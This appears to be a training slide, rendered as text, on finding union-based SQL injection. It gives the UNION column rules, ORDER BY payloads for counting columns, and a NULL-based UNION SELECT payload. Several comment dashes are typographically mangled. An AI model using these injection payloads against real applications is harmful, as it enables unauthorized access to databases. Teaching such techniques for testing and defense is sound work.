

Exploiting/Find Union-Based SQLi:
There are two rules for combining the result sets of two queries by using UNION:
• The number and the order of the columns must be the same in all queries
 • The data types must be same
Step1:
find out actual column number using order by  / order by -- - operation
	select title, cost from product where id =1 order by 1
	‘ order by 1–
	‘ order by 2–
	‘ order by 3—
Determining the number of columns required in an SQL injection UNION attack using NULL VALUES:
' UNION SELECT NULL--